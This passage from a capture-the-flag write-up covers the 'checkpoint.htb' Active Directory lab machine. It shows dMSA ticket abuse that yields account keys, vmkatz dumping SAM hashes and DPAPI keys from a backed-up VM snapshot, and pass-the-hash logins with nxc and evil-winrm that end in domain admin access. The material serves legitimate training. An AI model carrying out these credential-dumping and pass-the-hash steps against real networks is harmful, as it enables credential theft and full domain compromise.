    FTS2H7y3VUvAnZ2knz+TTCF5vFQb0NJ5IlgFmVDQ1SZWfhlUSPQs4XdgjBvDmOdiIH9ddTDtVfaN7QWQ78aQQ00QHzXKwjuZ53zA
    W5ZQde+Nd+VFQtAxwr4KPwLY7hQ2I5MDwKE1zVoSfa9fx+B5SURiZbzqEweoQgHTys063JZ7HeDG2TLwMMS0xLpMLDieRoaSHeRe
    axxqlbcfQPvSgFJrF5hCgsw5+B/i5DEeWA6/zzTjTLAum7aPAyH+N273cfrWXmoHtbqgsp6gvLzrFvGRzKb7YHWt7Is61W+FvnOn
    bPyQmnUD8psCUHu6qX8Ac4XDebttNYVwFFnr+5ZtNrvXQeA3EZPFy1NfkVCndkCqYoXmsoDeXNYQkDoTouf0HR2SSdjkZzawc4mI
    8PgUN3qTNaZW/hHpDgbA8T+UdBbs27zTwnhbjfZDOsrQDlfFCgW9AFL17bivMnC4Y0Ut5gOX68TtZs8IH0POrljPsJpYoqFw/Ybe
    UIsKTTZJv/2aAaXFpjJ0UfoSMAAaS7Fe+QwmuDUbFyDW22z9v6liyNggQXq72pBXT5W4CBP8my3Ctfhxo6YD7M5iagaSL6vaCQxy
    6NVAsVX0KiMFE0s74j/6kZEHYgdu3IQ28vp6QCRWxGEpeo/VzZSJIZqwhsyfGzxfn1mt0zpexL5mVb82Csi5bUE4jNkAVgp1kdma
    BDORuKR97CEejhIsqmRztZGkXV5yuzDUL4EsPcvHVxVgge1N2IOOd46RzukxsVkoCWEd8NXjKMGpRSMA6CYRofaHX0T5clykxzsq
    BwXUzL3qcsd9lFWJ7RsBLDtdrg+XF248Mf8obMoA+u6N6F40YgHVtmRDluuLbv1Pm8IqxfXv4mnKg1eYf7MXbfyTm870L4/R+pTc
    /jW60JaHhtqSZRJ8s9WD2Pdwt4Ok1dHLyURSq3VFa6VMsckFn3t2MvVbjfIoztQMgsw4wNfeTyQvaxg6kqFQLKRPRefn12wosEA2
    5EyxG/JptjCgfuH5I2Xq3Y9BlomLMOPxPexAiawm2iBIkR50YqqyM+HBwhKQuLQyWtRipuajgf8wgfygAwIBAKKB9ASB8X2B7jCB
    66CB6DCB5TCB4qArMCmgAwIBEqEiBCCQvZiC421aSW6LXXNo6ILVJy3kf+DNcxRtlf6Sdp+2YaEQGw5jaGVja3BvaW50Lmh0YqIX
    MBWgAwIBAaEOMAwbCmV2aWxfZG1zYSSjBQMDAGChpBEYDzIwMjYxMDI5MDA0MzUzWqURGA8yMDI2MTAyOTAxMjMwNVqmERgPMjAy
    NjEwMjkxMDQzNTNapxEYDzIwMjYxMTA1MDA0MzUzWqgQGw5DSEVDS1BPSU5ULkhUQqkjMCGgAwIBAqEaMBgbBmtyYnRndBsOQ0hF
    Q0tQT0lOVC5IVEI=
[+] dMSA TGT stored in ccache file evil_dmsa_LY.ccache

dMSA current keys found in TGS:
AES256: 33592d1cf64fb51ddeb34467377adc1c474533d11f3b0e5a3d463b533c5fa866
AES128: 767344ef798d09cc4f5bb095699f2964
RC4: 7f669d33b962f788a753ee25142f7e67

dMSA previous keys found in TGS (including keys of preceding managed accounts):
RC4: e16081eb077aca74bdbf8af12af43ac9
```

I now have a kirbi and an NTLM of the `evil_dmsa$` account but also the NTLM of `svc_deploy`



Now using the NTLM given in the bloodyAD output i can winrm as `svc_deploy`

## WINRM as `svc_deploy`



The bloodyAD shows the previous RC4 key found in the TGS so this is for the `svc_deploy` account

The current keys from the bloodyAD output are for the new dMSA i created `evil_dmsa$`

## Domain Admin

The user `svc_deploy` is in the backupaccess group, this likely has something to do with the VMbackups share

```python
evil-winrm-py PS C:\Shares\VMBackups\NightlyBackup_2024-11-01\memory forensics> dir


    Directory: C:\Shares\VMBackups\NightlyBackup_2024-11-01\memory forensics


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-a----          5/9/2026   7:45 PM      106496000 Windows Server 2019-000001.vmdk                                       
-a----          5/9/2026   7:40 PM     2147483648 Windows Server 2019-Snapshot1.vmem                                    
-a----          5/9/2026   7:40 PM      138164859 Windows Server 2019-Snapshot1.vmsn                                    
-a----          5/9/2026   7:39 PM         270840 Windows Server 2019.nvram                                             
-a----          5/9/2026   7:45 PM           7642 Windows Server 2019.scoreboard                                        
-a----          5/9/2026   7:39 PM    10199695360 Windows Server 2019.vmdk                                              
-a----          5/9/2026   7:39 PM            502 Windows Server 2019.vmsd                                              
-a----          5/9/2026   7:45 PM           2749 Windows Server 2019.vmx                                               
-a----          5/9/2026   7:22 PM            274 Windows Server 2019.vmxf                                              


evil-winrm-py PS C:\Shares\VMBackups\NightlyBackup_2024-11-01\memory forensics>
```

I can read into this share

https://github.com/nikaiw/VMkatz/releases

```python
evil-winrm-py PS C:\Shares\VMBackups\NightlyBackup_2024-11-01\memory forensics> upload vmkatz.exe C:\Temp\
Uploading /home/kali/htb/checkpoint/vmkatz.exe: 2.69MB [00:05, 532kB/s]                                                                                                                                                            
[+] File uploaded successfully as: C:\Temp\vmkatz.exe
evil-winrm-py PS C:\Shares\VMBackups\NightlyBackup_2024-11-01\memory forensics> C:\Temp\vmkatz.exe "Windows Server 2019-Snapshot1.vmsn"

[+] SAM Hashes:
  RID: 500   Administrator         NT:f29e9c014295b9b32139b09a2790be3b
  RID: 501   Guest                 NT:00000000000000000000000000000000  (DISABLED, NO PASSWORD)
  RID: 503   DefaultAccount        NT:00000000000000000000000000000000  (DISABLED, NO PASSWORD)
  RID: 504   WDAGUtilityAccount    NT:28f8d934dee90b2ec824351cb0844479  (DISABLED)

[+] LSA Secrets:
  DPAPI_SYSTEM
    user_key:    914b2bd39adf134401ec6eceb08f8ec131d2ecbd
    machine_key: 77d90ebac2487f870a26e4776c72b4509b06dd1b
  NL$KM
    key: 0e421c8e384f72e38169dd54e29255fa6c319978314c9e6a7fb9f92606ac7bffeb8a9509446e3a5262b1c2f766b0c353673029e7a3f3776a886970a69ab46f40

[+] 3 logon session(s), 2 with credentials (1 empty sessions hidden, use -a to show):

  LUID: 0x3e4 (NETWORK SERVICE)
  Session: 5 | LogonType: Service
  Username: WIN-0DG6SJAEUTA$
  Domain: WORKGROUP
  LogonTime: 2026-05-10 02:34:22 UTC
  SID: S-1-5-20
  [Kerberos]
    DES_CBC_CRC: 3a997d283fc46da0
    RC4_HMAC_EXP: 3a997d283fc46da0bd689ee00614a24d
  [DPAPI]
    GUID          : 632b77c8-5e1a-4479-8e35-baa290fdd6ae
    MasterKey     : 15e104f6de4e478c6bf55252632a25b973fccd39c2be8cc0d5b15a5dec06029f02fe0a02a3e57eb3b55f077f83a283cd0a11f6b3c6508d9e585527de78dc989e
    SHA1 MasterKey: 44bb34a624afcd186909843e6cbdb4cfee908975
  [DPAPI]
    GUID          : 57e1a5d6-bbd4-44e9-a5c4-f4241b0821b0
    MasterKey     : 95f668c165e7c0b3bd1f525330e5a647b9c9c8da7320c6fbdb4518a588bac996567e04f22b28d4f7a2abd33fafe0958522bca1aaa0de00f5edb7d6742065642d
    SHA1 MasterKey: b2bf2c648554143d6b28b3c06a1ece7e40867238
  [DPAPI]
    GUID          : 4f09a449-22e7-4a65-a4b9-fac89cc25328
    MasterKey     : e4778f7e1b8351eade5c49bb8e32503fbbaa705bb7e26eef5785e0a8200e31fcc2458a4db00e03aaabef34bd47900beee2d8a5bb73ddd904fbe279089a1ea718
    SHA1 MasterKey: 90b1c277630e507a8e28d7b260a53f21712c3f1d

  LUID: 0x14016d
  Session: 2 | LogonType: Unknown
  Username: Administrator
  Domain: WIN-0DG6SJAEUTA
  LogonServer: WIN-0DG6SJAEUTA
  LogonTime: 2026-05-09 14:07:14 UTC
  SID: S-1-5-21-2823729479-30462974-3865623546-500
  [MSV1_0]
    NT Hash : f29e9c014295b9b32139b09a2790be3b
    SHA1    : 89c15f3cd3ede88faf4b2d2e56253cf953e7922e
    DPAPI   : 89c15f3cd3ede88faf4b2d2e56253cf953e7922e
  [Kerberos]
  [DPAPI]
    GUID          : c53f7d5b-2902-415c-9c09-251f39974440
    MasterKey     : 32cc5c309067ca0994b849897a9b85b89511547030a1d8b74fe6e37ba037a4161301ffce692e6e433c3821dc18abfe208e1dc5c458de79d1352c6681e18bde15
    SHA1 MasterKey: b061f87be6d2776897d912fed9156a354b81a595

[*] vmkatz v1.5.2
[*] System discovery: 15.5706827s
[*] Process enumeration: 4.1015ms
[*] Recovering registry hives via CM hive-map...
[+] Bootkey: 75247bc64fa0086d2c98744d4bcd53f5
[*] Credential extraction: 108.4853ms
[*] 3 sessions, 1 NT hashes, 0 plaintext passwords
evil-winrm-py PS C:\Shares\VMBackups\NightlyBackup_2024-11-01\memory forensics>
```

Then ill just run it 

This has given me a admin NTLM hash

```python
❯❯❯ nxc smb dc01.checkpoint.htb -u 'Administrator' -H 'f29e9c014295b9b32139b09a2790be3b'      
SMB         10.129.81.48    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.81.48    445    DC01             [+] checkpoint.htb\Administrator:f29e9c014295b9b32139b09a2790be3b (Pwn3d!)
```

I have now compromised the DA

```python
❯❯❯ nxc smb dc01.checkpoint.htb -u 'Administrator' -H 'f29e9c014295b9b32139b09a2790be3b' -X whoami
SMB         10.129.81.48    445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:checkpoint.htb) (signing:True) (SMBv1:None)
SMB         10.129.81.48    445    DC01             [+] checkpoint.htb\Administrator:f29e9c014295b9b32139b09a2790be3b (Pwn3d!)
SMB         10.129.81.48    445    DC01             [+] Executed command via wmiexec
SMB         10.129.81.48    445    DC01             checkpoint\administrator
```

Domain admin!

```python
evil-winrm-py -i dc01.checkpoint.htb -u 'Administrator' -H 'f29e9c014295b9b32139b09a2790be3b'
          _ _            _                             
  _____ _(_| |_____ __ _(_)_ _  _ _ _ __ ___ _ __ _  _ 
 / -_\ V | | |___\ V  V | | ' \| '_| '  |___| '_ | || |
 \___|\_/|_|_|    \_/\_/|_|_||_|_| |_|_|_|  | .__/\_, |
                                            |_|   |__/  v1.7.0

[*] Connecting to 'dc01.checkpoint.htb:5985' as 'Administrator'
evil-winrm-py PS C:\Users\Administrator\Documents>
```

I can then login as the DA

```python
evil-winrm-py PS C:\Users\max.palmer\Desktop> dir


    Directory: C:\Users\max.palmer\Desktop


Mode                 LastWriteTime         Length Name                                                                  
----                 -------------         ------ ----                                                                  
-ar---        10/28/2026   4:33 PM             34 root.txt                                                              


evil-winrm-py PS C:\Users\max.palmer\Desktop>
```

The other domain admin has the root flag

```python
evil-winrm-py PS C:\Users\max.palmer\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State  
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
evil-winrm-py PS C:\Users\max.palmer\Desktop>
```

Full domain compromised!
